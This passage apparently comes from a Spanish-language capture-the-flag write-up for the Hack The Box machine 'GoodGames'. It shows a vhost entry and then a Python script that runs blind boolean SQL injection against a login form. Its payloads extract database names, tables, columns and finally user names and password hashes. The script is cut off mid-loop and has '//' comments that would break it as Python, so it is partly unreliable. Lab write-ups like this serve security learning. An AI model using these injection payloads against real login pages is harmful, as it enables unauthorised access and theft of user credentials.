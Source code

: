 Debemos agregar el dominio en el archivo `/etc/hosts`:

```
10.10.11.130 internal-administration.goodgames.htb
```

![[Goodgames6.png]]

Una vez dentro, tenemos un **nuevo panel de login** en el cual no nos deja hacer ningun tipo de inyeccion

![[Goodgames7.png]]

---

## 🐍 Script de Dump de Datos

En el campo de login en el cual hicimos la inyeccion previamente, con este script vamos a empezar a dumpear todos los datos, para hacernos con el usuario y la contraseña

```python
#!/usr/bin/env python3

from pwn import *
import requests, signal, sys, string, time


###CTRL +C###
def def_handler(sig, frame):
    print("\n\n Saliendo..\n")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)
###Fin CTRL+C##

#Variables globales
characters = string.ascii_lowercase + "_-:,;" + string.ascii_uppercase + string.digits
main_url = "http://10.10.11.130/login"
headers = {'Content-Type': 'application/x-www-form-urlencoded'}

def sqli():

    data = ""
    p1 = log.progress("SQLI")
    p1.status("Iniciando ataque")
    time.sleep(1)
    p2 = log.progress("Data")

    for position in range(1, 500):
        for character in characters:
            payload = f"' or substring((select group_concat(schema_name) from information_schema.schemata),{position},1)='{character}'-- -" //Dumpear bases de datos
            #payload = f"' or substring((select group_concat(table_name) from information_schema.tables where table_schema='main'),{position},1)='{character}'-- -" //Dumpear tablas
            #payload = f"' or substring((select group_concat(column_name) from information_schema.columns where table_schema='main' and table_name='user'),{position},1)='{character}'-- -" //Dumpear columnas
            #payload = f"' or substring((select group_concat(name,0x3a,password) from main.user),{position},1)='{character}'-- -" #Dumpear datos finales
            post_data = {
                "email": payload,
                "password": "test"
                }

            r = requests.post(main_url, data=post_data, headers=headers)
```